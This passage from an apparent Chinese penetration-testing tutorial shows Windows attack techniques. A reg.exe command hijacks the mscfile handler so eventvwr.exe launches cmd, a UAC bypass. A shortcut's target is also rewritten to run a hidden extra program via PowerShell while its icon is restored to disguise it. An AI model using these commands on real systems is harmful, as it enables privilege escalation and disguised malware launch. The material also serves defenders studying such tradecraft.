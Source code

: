     
    reg.exe add hkcu\software\classes\mscfile\shell\open\command /ve /d "c:\windows\system32\cmd.exe /c \"start cmd\"" /feventvwr.exe

![](https://gitee.com/fuli009/images/raw/master/public/20210808101326.png)

# 0x04 lnk

这里以该快捷文件为例：

![](https://gitee.com/fuli009/images/raw/master/public/20210808101327.png)

修改目标为：

    
    
    powershell.exe -c "invoke-item C:\Users\Administrator\Desktop\AdExplorer\ADExplorer64.exe; invoke-item c:\windows\system32\calc.exe"

![](https://gitee.com/fuli009/images/raw/master/public/20210808101328.png)

再把图标修改回来：

![]()

运行lnk

![](https://gitee.com/fuli009/images/raw/master/public/20210808101329.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210808101330.png)

 **推荐阅读**

[内网渗透 |
横向移动中MSTSC的密码获取](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498288&idx=1&sn=851640e1e271c348c195bdb7400d62cc&chksm=ec1caf0fdb6b261935f92e8e3458ac01ef27f323668098bc12edb462db60fd9c1c27217a8e21&scene=21#wechat_redirect)  

  

[内网渗透 | SPN 与 Kerberoast
攻击讲解](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497831&idx=1&sn=cdc3aef06751705f8156f35115f6892d&chksm=ec1cad58db6b244e5174b026c9699cf70066ac919ee2213c69742e74bd990be224feee996c03&scene=21#wechat_redirect)  

  

[内网渗透 | Kerberos
协议相关安全问题分析与利用](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497830&idx=1&sn=9dfacfb1a9513c860a3aeb268770097e&chksm=ec1cad59db6b244f05d44dc179ee9969acea9b0371c653992d9a65a80ae235cfa812186316db&scene=21#wechat_redirect)  

  

[内网渗透 | Kerberos 协议与 Kerberos
认证原理](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497760&idx=1&sn=4c0f57ba9203cc115a85cd0c011fdc43&chksm=ec1cad1fdb6b2409ec3ef25008ad6834a7220997a914308a478ed9d682c84c7b370e423a878c&scene=21#wechat_redirect)  
